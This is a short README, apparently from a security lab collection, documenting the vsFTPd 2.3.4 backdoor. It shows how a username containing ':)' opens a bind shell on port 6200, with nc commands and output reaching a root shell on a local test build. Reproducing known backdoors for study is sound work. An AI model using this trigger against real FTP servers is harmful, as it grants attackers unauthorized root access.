 # vsFTPd 2.3.4 backdoor
- **Type**: hardcoded credentials
- **Affected versions**: 2.3.4


## Backdoor
When authenticating into the FTP server, if the username contains `":)"`, a shell is bound to port
6200.

## Triggering the backdoor
First, we need to start the FTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/vsftpd ./vsftpd.conf
```
In a separate terminal, we can trigger the backdoor:
```console
$ nc localhost 8080  # connect to FTP server
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS x
```
We can now connect to a root shell on port 6200:
```console
$ nc localhost 6200
id
uid=0(root) gid=0(root) groups=0(root)
```


## Reference
<https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html>
